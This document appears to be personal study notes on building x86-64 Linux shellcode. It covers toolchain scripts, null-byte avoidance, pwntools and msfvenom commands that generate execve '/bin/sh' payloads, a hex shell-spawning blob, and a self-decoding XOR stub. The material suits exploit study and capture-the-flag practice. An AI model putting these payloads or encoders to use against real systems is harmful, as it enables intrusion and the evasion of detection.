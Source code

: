 # Shellcoding
- [shellstorm](http://shell-storm.org/shellcode/index.html)
- [pwntools asm docs](https://docs.pwntools.com/en/stable/asm.html)
- [pwntools cli docs](https://docs.pwntools.com/en/stable/commandline.html)

## Basic toolchain

### Code
```bash
#!/bin/bash
# build-shellcode.sh

if [ -z "$1" ]; then
  echo "Usage: $0 filename"
  exit 1
fi

run_flag=false
if [ "$2" == "--run" ]; then
  run_flag=true
fi

filename=$(basename -- "$1")
filename_noext="${filename%.*}"

nasm -f elf64 "$1" -o "${filename_noext}.o"

ld "${filename_noext}.o" -o "${filename_noext}.linked"

python parse-shellcode.py "${filename_noext}.linked"

if [ "$run_flag" == true ]; then
  ./"${filename_noext}.linked"
fi
```

```python
#!/usr/bin/python3
# parse-shellcode.py

import sys
from pwn import *

context(os="linux", arch="amd64", log_level="error")

file = ELF(sys.argv[1])
shellcode = file.section(".text")

print(shellcode.hex())
print(''.join([r'\x{:02x}'.format(c) for c in shellcode]))

print("%d bytes - Found NULL bytes" % len(shellcode)) if [i for i in shellcode if i == 0] else print("%d bytes - No NULL bytes" % len(shellcode))
```
### Usage
```bash
./build-shellcode.sh some_asm_shellcode.asm --run
```

## Shellcode ASM template
> shellcode_asm_template.asm
```nasm
section .text
    global _start

_start:
    xor rax, rax
    mov rax, 0x6574616161616c70
    push rax
    mov rax, 0x6d657420656d6f53 
    push rax

    xor rax, rax
    mov al, 0x01
    mov dil, 0x01
    mov rsi, rsp
    mov dl, 16
    syscall

    xor al, al
    mov al, 0x3c
    xor dil, dil
    syscall
```

## Compliance 
The shellcode must fill the following requirements:
- Does not contain variables
  - The entire shellcode must be under the `.text` section. 
  - Move strings to the stack, max size per "push" is 8 bytes, in reverse order.
```nasm
mov rbx, 'hi'
push rbx
mov rbx, 'bonjour '
push rbx
mov rsi, rsp
```
- Does not refer to direct memory addresses
  - Replace with calls to labels or rip-relative addresses (for calls and loops)
  - Push to the Stack and use rsp as the address (for mov and other assembly instructions)
- Does not contain any null bytes (00)
  - Use registers that match the data size (like `mov al, 1` instead of `mov rax, 1`)
```nasm
    mov bx, 'hi'
    push bx
    mov rbx, 'bonjour '
    push rbx
    mov rsi, rsp
    mov al, 1
    mov dil, 1
    mov dl, 10
    syscall
```

## With pwntools
```bash
pwn asm 'pop rax; push rax;' -c 'amd64'
#
# 5850
#

pwn disasm '5850' -c 'amd64'
#
#   0:    58                       pop    rax
#   1:    50                       push   rax
#

pwn disasm '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05' -c amd64
```

```python
python
>>> from pwn import *
>>> context.update(arch='amd64', os='linux')
>>> asm('mov rax,1')
>>> asm('mov rax,1').hex()
>>> printb = lambda x: print(' '.join(f'{byte:02x}' for byte in x))
>>> lprintb = lambda filename: print(' '.join(f'{byte:02x}' for byte in ELF(filename).section('.text')))
>>> printb(ELF('someExe').section('.text'))

>>> run_shellcode(unhex('4831db66bb7921...')).interactive()
```

## Shellcrafting
- [pwntools shellcraft amd64 docs](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
```bash
pwn shellcraft -l 'amd64.linux'
pwn shellcraft amd64.linux.sh
```

```python
from pwn import *
context(os="linux", arch="amd64", log_level="error")
dir(shellcraft)

syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
asm(syscall).hex()
```

### With msfvenom
```bash
msfvenom -l payloads | grep 'linux/x64'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```

## Self modifying shellcode on the stack (XOR)
Requires executable and writeable stack
```
(gdb) info proc map
          Start Addr           End Addr       Size     Offset Perms  objfile
     0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rwxp   [stack]
```
```nasm
section .text
global _start

_start:
    sub rsp, shellcode_len
    jmp short call_encoded_shellcode

shellcode:
    pop rsi
    xor rcx, rcx
    mov rdi, rsp 
    mov cl, shellcode_len
    rep movsb 
    mov cl, shellcode_len
    mov bl, 0xaa 
    mov rsi, rsp 

decode_loop:
    xor byte [rsi], bl
    inc rsi
    loop decode_loop
    jmp rsp

call_encoded_shellcode:
    call shellcode 
    encoded_shellcode:
        db 0xe2,0x9b,0x6a    ; Add a already XORed shellcode here

shellcode_len equ $ - encoded_shellcode
```
